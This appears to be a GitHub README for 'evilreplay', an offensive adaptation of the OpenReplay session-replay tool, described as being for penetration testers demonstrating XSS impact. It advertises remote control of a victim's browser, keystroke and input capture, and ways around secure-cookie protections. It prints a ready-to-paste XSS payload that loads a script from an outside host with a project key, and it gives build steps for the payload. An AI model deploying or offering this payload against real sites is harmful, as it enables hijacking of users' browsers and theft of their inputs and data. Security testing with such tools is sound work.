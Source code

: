 <p align="center">
  <a href="https://github.com/EgeBalci/evilreplay">
    <img src="https://github.com/EgeBalci/evilreplay/raw/master/.github/img/banner.png">
  </a>
</p>

<h3 align="center">Seamless remote browser control for pentesters</h3>

<p align="center">
  <a href="https://docs.openreplay.com/deployment/deploy-aws">
    <img src="static/btn-deploy-aws.svg" height="40"/>
  </a>

  <a href="https://docs.openreplay.com/deployment/deploy-gcp">
    <img src="static/btn-deploy-google-cloud.svg" height="40" />
  </a>

  <a href="https://docs.openreplay.com/deployment/deploy-azure">
    <img src="static/btn-deploy-azure.svg" height="40" />
  </a>

  <a href="https://docs.openreplay.com/deployment/deploy-digitalocean">
    <img src="static/btn-deploy-digital-ocean.svg" height="40" />
  </a>
</p>


This tool is a weaponized adaptation of the [OpenReplay project](https://github.com/openreplay/openreplay), tailored for penetration testers and security professionals to demonstrate and assess the impact of Cross-Site Scripting (XSS) vulnerabilities in restricted environments without the need for stealing cookies.

https://github.com/user-attachments/assets/ef0f4018-db54-47b4-8513-90ae7a244e3a

### 🔥 Key Features

* 🎯 **Remote Browser Control**
  Interact with the victim’s browser in real time via an intuitive UI — click buttons, follow links, and simulate keystrokes remotely.

* 📹 **Automatic Session Recording**
  All victim interactions are recorded, providing replayable sessions for easier analysis and reporting of XSS findings.

* 🔍 **Deep Visibility**
  Obtain user inputs and detailed browser diagnostics:
  
  * User keyboard/mouse inputs and events
  * Console logs & JS errors
  * Network requests and responses
  * Application state and store actions
  * 40+ performance and behavior metrics

* 🛡️ **Bypasses Secure Contexts**
  Capture data even when secure cookies and modern browser protections are in place.

## Usage

The following script can be used as a XSS payload. **(don't forget to change the `projectKey`)** Follow the [Building The Payload](#Building-The-Payload) section for compiling the payload from the source. (The `ingestPoint` parameter needs to be updated when self-hosting)


```html
<script src="https://ege.sh/drop/sc.js" onload=evilreplay("OEeP7C6ysFPXP8mDI04T")></script>
```

## Building The Payload

For building the `evilreplay.js` XSS payload from the souce you need to install [bun](https://bun.sh/) follow the steps below.

```
git clone https://github.com/EgeBalci/evilreplay
cd ./evilreplay/tracker/tracker-assist
bun install 
bun run build 
cd ../tracker 
bun run build 

# XSS payload is built as dist/iife/evilreplay.js
```

## Deployment Options

OpenReplay can be deployed anywhere. Follow our step-by-step guides for deploying it on major public clouds:

- [AWS](https://docs.openreplay.com/deployment/deploy-aws)
- [Google Cloud](https://docs.openreplay.com/deployment/deploy-gcp)
- [Azure](https://docs.openreplay.com/deployment/deploy-azure)
- [Digital Ocean](https://docs.openreplay.com/deployment/deploy-digitalocean)
- [Scaleway](https://docs.openreplay.com/deployment/deploy-scaleway)
- [OVHcloud](https://docs.openreplay.com/deployment/deploy-ovhcloud)
- [Kubernetes](https://docs.openreplay.com/deployment/deploy-kubernetes)


